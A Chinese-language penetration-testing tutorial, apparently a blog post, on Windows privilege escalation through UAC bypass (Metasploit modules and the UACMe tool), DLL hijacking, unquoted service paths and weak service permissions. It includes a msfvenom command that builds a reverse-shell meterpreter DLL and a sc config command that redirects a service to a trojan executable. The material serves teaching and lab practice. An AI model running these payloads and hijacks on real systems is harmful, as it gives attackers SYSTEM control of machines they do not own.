# 1. 前言

关于Windows提权应该这篇总结完就结束了，再次提醒一下关于第三方软件或插件提权，不是不写，而且有些软件都会自动更新，很多漏洞基本上很少遇到，同时也利用不了，比如说：向日葵有一个版本能够提权，但是现在那个版本装再电脑上，根本连接不上向日葵的服务器，更何谈提权呢，同时还可以看日志，目前日志也更改了，端口不会再日志中出现了。

前面几篇文章我就汇总在下面了，同时关于UAC提权之前一篇文章写的没那么细，这里重新补充一下。

# 2. UAC提权

UAC(User Account Control，用户账号控制)是微软为了提高系统安全性在Windows Vista中引入的技术。UAC要求用户在执行可能影响计算机运行的操作或在进行可能影响其他用户的设置之前，拥有相应的权限或者管理员密码。UAC在操作启动前对用户身份进行验证，以避免恶意软件和间谍软件在未经许可的情况下在计算机上进行安装操作或者对计算机设置进行更改。

在Windows Vista及以后的版本中，微软设置了安全控制策略，分为高、中、低三个等级。高等级的进程有管理员权限；中等级的进程有普通用户权限；低等级的进程，权限是有限的，以保证系统在受到安全威胁时造成的损害最小。在权限不够的情况下，访问系统磁盘的根目录、Windows目录，以及读写系统登录数据库等操作，都需要经常UAC(User Account Control，用户账号控制)的认证。

## 2.1. UAC设置

- 始终通知：这是最严格的设置，每当有程序需要使用高级别的权限时都会提示本地用户
- 仅在程序试图更改我的计算机时通知我：这是UAC的默认设置。当本地Windows程序要使用高级别的权限时，不会通知用户。但是，当第三方程序要使用高级别的权限时，会提示本地用户
- 仅在程序试图更改我的计算机时通知我(不降低桌面的亮度)：与上一条设置的要求相同，但在提示用户时不降低桌面的亮度
- 从不提示：当用户为系统管理员时，所有程序都会以最高权限运行  

## 2.2. MSF绕过UAC

这里我就不演示如何设置监听与生成木马了，在前面的文章中都提到相关的操作。

### 2.2.1. Windows7系统案例

这里是基于默认等级的哦，如果被设置为最高的话，那就凉凉了，因为需要人为去点击，但是我们正常需要提权都是由于我们获取的权限太低，或者远程桌面打不开，你如何去点击，都无法点击了，何谈提权。

#### 2.2.1.1. UAC状态

这里的UAC状态是默认，也就是中等级别，至于打开这个UAC可以在运行框中输入"msconfig",然后工具一栏就能看到更改UAC设置。

一般UAC关闭的情况下使用getsystem就能够提权成功。



#### 2.2.1.2. 尝试getsystem提权

这里在尝试使用getsystem提权，发现无法提权，那么就需要使用UAC进行绕过了。

```
background  ##将会话置于后台，不然会在使用bypass的找不到会话。
```



#### 2.2.1.3. 搜索UAC绕过bypass方式

这里能够看到有很多的UAC绕过的bypass方式，但是这里面是分不同Windows版本的，有的可能在Windows7上能用，有的可能就不能用，不过最好选择日期靠近的，这样成功率大一点。

```
search uac  ##搜索
```



#### 2.2.1.4. 尝试使用UAC绕过提权

```
use exploit/windows/local/bypassuac   ##选择bypass
sessions         ##选择会话
set session 1    ##设定会话
set lport 5555   ##设定反弹端口，这里不设置也可以，但是有时候直接反弹回来，会出现反弹不成功的情况。
run  ##执行
```



#### 2.2.1.5. 查看反弹效果

通过反弹回来的效果能够看到，成功提权了。



### 2.2.2. Windows10系统案例

这里还是使用默认的UAC等级进行提权。

#### 2.2.2.1. 尝试getsystem提权

可以看到，这里同样是提权失败。



#### 2.2.2.2. 尝试使用UAC绕过提权

这里我也是尝试了好几个bypass才成功的，环境不同，可能使用到的bypass也是不同的，有些bypass需要也能提权，但是需要点击确定，所以多尝试尝试。

```
use exploit/windows/local/bypassuac_silentcleanup   ##选择模块
sessions    ##选择会话
set session 5   ##设置会话
set lport 6666  ##设置监听端口
run   ##执行
```



#### 2.2.2.3. 查看反弹效果

这里能够看到是成功提权了。



## 2.3. UACMe工具绕过UAC

这里我就不搭建WEB环境了，UACMe提取可以在低权限的时候提权，但是同样在UAC设置为高的时候同样也是无法进行直接提权的，需要人为的去点击确定才可以。

UACMe工具涵盖了Windows7-11以及server服务器系统均可以提权。

同时这里我就演示个Windows10系统的，至于Windows7肯定要比Windows10好提权。

### 2.3.1. 下载链接

注意想要使用这个工具需要对其进行编译成功.exe文件，而我这里没有最新的.exe文件，这里给个老版的，但是也没差到哪里去，具体使用的介绍建议去GitHub上自己看。

[UACMe](https://github.com/hfiref0x/UACME)

[百度网盘UACMe](https://pan.baidu.com/s/1Tt-s2kluGJTr0hGwFR6y7w?pwd=86lm) 提取码：86lm 

### 2.3.2. Windows10系统案例

这里在下载完UACMe的时候，里面会有两个exe执行文件，一个是32位的，一个是64位的，按照不同的系统位数，放入不同的exe文件进行执行。

#### 2.3.2.1. 系统内操作

注意这里弹出的窗口只是演示，在实际的环境中，我们无法登录桌面，可以使用改工具去运行木马后门，让其上线即可。

至于编号，新版的UACMe里包含70余种，可以一个一个尝试。

```
语法：Akagi64.exe 编号
```



#### 2.3.2.2. 反弹上线

这里同样我们监听一下端口，并且利用工具进行反弹上线。

```
语法：Akagi64.exe 编号 后门程序地址
```



#### 2.3.2.3. 查看权限

这里反弹上来的可能还是普通管理员权限，这里可以使用getsystem进行再次提权，可以看到成功提权。



# 3. dll劫持提权

## 3.1. Windows10系统案例

Windows 程序启动的时候需要 DLL。如果这些 DLL 不存在，则可以通过在应用程序要查找的位置放置恶意 DLL 来提权。通常，Windows 应用程序有其预定义好的搜索 DLL 的路径。

它会根据下面的顺序进行搜索：

    1、应用程序加载的目录
    2、C:\Windows\System32
    3、C:\Windows\System
    4、C:\Windows
    5、当前工作目录 Current Working Directory，CWD
    6、在 PATH 环境变量的目录（先系统后用户）

程序运行一般会加载系统dll或本身程序自带的dll，如果我们将程序执行时需要加载的dll文件替换成程序，那么我们下次在启动程序时所加载的dll就是我们替换的那个木马程序了。

### 3.1.1. 收集进程加载的dll

这里会出现一个问题，没有远程桌面我们如何收集，这里其实有个很简单的办法就是，通过上线普通木马后，看看能不能查看有存在哪些服务，然后找到相关服务本地安装，安装后使用火绒剑等工具进行查找加载的dll文件即可。

像系统文件加载的dll我们是动不了的，我们一般能懂的都是未知文件和数字签名文件。



### 3.1.2. MSF制作dll木马

这里我们选中libeay32.dll文件，我们就制作这个木马。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.20  lport=5566 -f dll >libeay32.dll
```



### 3.1.3. 替换dll文件

这里将生成的dll文件替换原本的dll。



### 3.1.4. 运行软件

运行软件，不过需要注意的是，在实际环境中由于我未获取到桌面权限，所以需要等待管理员去运行，同时由于我们替换了dll文件，所以会导致管理员在运行软件的时候会出现无响应的情况，这时无法保证，管理员会卸载重新安装。



### 3.1.5. 设置监听

这里设置监听，当管理员去运行软件的时候就会上线，像上面提到的，当软件不能用了，无法保证管理员不会卸载重装或者重启电脑，所以在获取权限后需要及时的移植到其它进程上面。

可以看到的是成功上线了。



### 3.1.6. 提权

我这里没有提权成功，可能是由于系统问题，但是调试了半天也没成功，这也能够证明不是所有提权方式都是能够百分比提权成功的，这里也只是演示，可以用这个方式进行提权。



## 3.2. Windows2012系统案例

 前面的分析与劫持等步骤就不在赘述了，直接看案效果把。

可以看到这里使用Windows2012就能够成功提权，所以之前提到的有些提权方式是根据不同系统可能有不同的效果。



# 4. 不带引号服务路径配合

注意提权方式和操作系统版本等都没有任何关系。

当Windows服务运行时，会发生以下两种情况之一。如果给出了可执行路径，并且引用了完整路径，则系统会按字面解释它并执行。但是，如果服务的二进制路径未包含在引号中，则操作系统将会执行找到的空格分隔的服务路径的第一个实例。

不过这个确实局限性还是很大的，比如虚拟机中没有找到这样的情况，实体机没有找到，客户现场机器也没找到.......同时还有一个问题是就算有，很多都是在C盘中，如果基本权限不够大，那么也凉凉，也用不了。

## 4.1. 介绍案例

这里的图片我借用一下其它博客的，由于我自己电脑以及其它电脑，虚拟机都没有这样的路径。

```
次序执行
c:\program.exe
c:\program files.exe
c:\program files (x86)\grasssoft\macro.exe
c:\program files (x86)\grasssoft\macro expert\MacroService.exe
```



## 4.2. 查看系统中错误配置的路径

而通过下面的语句可以判断系统中是否存在这类问题，这里找到不代表就一定会存在问题，你看下面的图片明显无法进行替换。

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```



## 4.3. 生成木马

这里由于我的虚拟机中并没有这样的路径，而且不好模拟，所以这里主要就是将一下流程，我们就按照第一张图片上的案例来演示。

```
c:\program files (x86)\grasssoft\macro expert\MacroService.exe  ##获取到存在问题的路径
```

上面是获取到的错误路径，这里我们可以看到空格是在c:\program后面，那么我们生成一个木马，然后将木马名字改为：program.exe，并且发入C盘的根目录下。

这里放入C盘的原因是，服务去进行重启的时候，会按照上面的路径去寻找，而第一步就是找到C盘，同时又没有引号，那么当遇到program.exe的时候就会执行。



## 4.4. 重启服务

这里只需要让服务重启就可以了，不过这里同时遇到一个问题就是，当实际环境中是需要管理员去重启服务，或者重启服务器的时候启动，这样才能上线，不过一般这个上线就是system权限。

这里我就不演示了，主要没有那个条件，整体的流程就是这样的。

# 5. 不安全的服务权限

Windows服务有时被配置为与服务本身或与服务运行的目录相关的弱权限。这可能允许攻击者操纵服务，以便在其启动时执行任意代码，并将权限提升到SYSTEM。

## 5.1. 利用方式

将服务的 binpath 更改为我们上传的木马文件路径，以便在服务启动时执行恶意代码从而获得system权限，这里可以利用accesschk.exe工具辅助实现。

accesschk是一个windows系统配置检查工具，用于查看文件、注册表项、服务、进程、内核对象等的有效权限。该工具将有助于识别当前用户是否可以修改某个服务目录中的文件，由于它是微软官方出品，我们将其上传至靶机，执行不会受到阻碍。

### 5.1.1. 下载链接

[accesschk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

## 5.2. 检查服务权限

这里将下载下来的工具上传至靶机中，这里我使用Windows server2012做演示。这里我为了测试方便，直接在靶机中去操作，而实际环境中可能需要在webshell工具中去操作。

### 5.2.1. 绕过许可

还需要注意的是第一次执行accesschk.exe会跳出一个提示窗口让我们接受许可，我们执行命令绕过以自动接受。

```
accesschk.exe /accepteula
```



### 5.2.2. 查看权限

检测服务权限配置：执行命令检测，检测当前用户可以操作的服务项，注意当前用户操作的服务项，需要先判断自己获取到的权限是什么，然后去执行。

```
accesschk.exe -uwcqv "Administrators" *
```



## 5.3. 修改服务路径指向

这里通过修改服务路径的指向来执行后门木马程序的路径。

```
sc config "napagent" binpath="C:Users\Public\Downloads\shell.exe"
```

